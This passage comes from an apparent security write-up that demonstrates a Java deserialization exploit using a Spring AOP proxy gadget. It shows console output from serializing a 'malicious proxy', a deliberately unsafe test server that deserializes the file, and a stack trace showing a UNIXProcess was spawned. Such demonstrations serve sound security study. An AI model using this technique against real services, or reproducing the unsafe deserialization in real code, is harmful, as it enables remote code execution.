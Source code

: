 ```lang-bash line-numbers 
[+] Creating a Proxy implementing the server side expected interface (Contact) with our malicious handler
[+] Serializating malicious proxy
[+] Successfully serialized: com.sun.proxy.$Proxy0
```

To prove it works we will write a dumb server that deserialize our stream and cast it to the **Contact** class:

```lang-java line-numbers 
package com.company;

import com.company.model.Contact;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileInputStream;

public class SerializationServer {

	public static void main (String[] args) {

		try {
			FileInputStream fileIn =new FileInputStream("proxy.ser");
			ObjectInputStream in = new ObjectInputStream(fileIn);
			Contact contact = (Contact) in.readObject();
			System.out.println("[+] Running method in deserialized object");
			System.out.println("[+] Payload: " + contact.getName());
			in.close();
			fileIn.close();
       	} catch(IOException i) {
			i.printStackTrace();
			System.exit(-1);
        } catch (ClassNotFoundException c) {
			System.out.println("Class not found");
			c.printStackTrace();
			System.exit(-1);
        }

	}
}
```

Lets run it:

```lang-bash line-numbers 
[+] Running method in deserialized object
Exception in thread "main" org.springframework.aop.AopInvocationException: AOP configuration seems to be invalid: tried calling method [public abstract java.lang.String com.company.model.Contact.getName()] on target [java.lang.UNIXProcess@728f5352]; nested exception is java.lang.IllegalArgumentException: object is not an instance of declaring class
	at org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(AopUtils.java:317)
	at org.springframework.aop.framework.JdkDynamicAopProxy.invoke(JdkDynamicAopProxy.java:196)
	at com.sun.proxy.$Proxy0.getName(Unknown Source)
	at com.company.SerializationServer.main(SerializationServer.java:17)
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:601)
	at com.intellij.rt.execution.application.AppMain.main(AppMain.java:120)
Caused by: java.lang.IllegalArgumentException: object is not an instance of declaring class
	at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
	at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:57)
	at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
	at java.lang.reflect.Method.invoke(Method.java:601)
	at org.springframework.aop.support.AopUtils.invokeJoinpointUsingReflection(AopUtils.java:309)
```